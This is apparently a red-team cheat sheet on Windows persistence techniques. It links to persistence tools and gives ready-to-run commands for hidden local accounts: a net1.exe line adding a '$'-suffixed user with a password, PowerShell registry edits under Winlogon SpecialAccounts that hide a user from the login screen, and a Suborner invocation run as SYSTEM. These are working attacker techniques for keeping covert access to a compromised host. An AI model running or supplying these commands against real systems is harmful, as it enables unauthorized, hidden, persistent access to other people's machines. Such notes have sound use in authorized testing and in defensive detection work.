 # Persistence

* [https://xakep.ru/2021/03/03/persistence-cheatsheet/](https://xakep.ru/2021/03/03/persistence-cheatsheet/)




## Windows

- [https://persistence-info.github.io/](https://persistence-info.github.io/)



### Scheduled Tasks

- [https://github.com/VirtualAlllocEx/Taskschedule-Persistence-Download-Cradles](https://github.com/VirtualAlllocEx/Taskschedule-Persistence-Download-Cradles)



### Hidden Local User

- [https://github.com/3gstudent/Windows-User-Clone](https://github.com/3gstudent/Windows-User-Clone)
- [https://github.com/wgpsec/CreateHiddenAccount](https://github.com/wgpsec/CreateHiddenAccount)


#### Dollar Sign

* [https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/](https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/)

```
Cmd > net1.exe user snovvcrash$ Passw0rd! /add
```


#### SpecialAccounts

```
PS > New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name SpecialAccounts
PS > New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\" -Name snovvcrash -PropertyType DWORD -Value 0 -Force
```


#### Suborner

- [https://r4wsec.com/notes/the_suborner_attack/](https://r4wsec.com/notes/the_suborner_attack/)
- [https://github.com/r4wd3r/Suborner](https://github.com/r4wd3r/Suborner)

```
PS > whoami
nt authority\system
PS > .\Suborner.exe /username:snovvcrash$ /password:Passw0rd!
```
